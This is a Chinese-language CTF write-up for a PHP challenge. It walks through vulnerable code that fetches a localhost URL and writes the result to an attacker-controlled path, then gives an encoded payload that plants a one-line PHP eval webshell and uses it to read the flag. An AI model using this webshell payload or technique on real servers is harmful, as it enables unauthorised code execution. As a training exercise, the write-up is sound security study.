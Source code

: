 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们可以直接看到php主要的逻辑代码：

```php
<?php
if(isset($_GET) && !empty($_GET)){
    $url = $_GET['file'];
    $path = 'upload/'.$_GET['path'];
}else{
    show_source(__FILE__);
    exit();
}

if(strpos($path,'..') > -1){
    die('SYCwaf!');
}

if(strpos($url,'http://127.0.0.1/') === 0){
    file_put_contents($path, file_get_contents($url));
    echo "console.log($path update successed!)";
}else{
    echo "Hello.Geeker";
}
```

3.我们可以看到代码中，程序会访问url中的`$file`参数，然后写入到`$path`文件中。例如当访问：

`http://IP:PORT/?file=http://127.0.0.1/index.php&path=tmp.txt`

![](files_for_writeup/2.png)


4.但是这道题目该如何绕过呢？由于`$path`是我们直接输入的，那么`$path`就完全是我们可控的，我们可以考虑在`$path`写为一句话木马。
那么最后的payload为：

`http://IP:PORT/?path=lemon.php&file=http%3A%2f%2f127.0.0.1%2f%3Fpath%3D%253C%253Fphp%2520@eval%2528%2524_POST%255B1%255D%2529%253B%253F%253E%26file%3Dhttp%3A%2f%2f127.0.0.1%2findex.php`

![](files_for_writeup/3.png)

5.连接一句话木马：

![](files_for_writeup/4.png)

6.查看flag：

![](files_for_writeup/5.png)

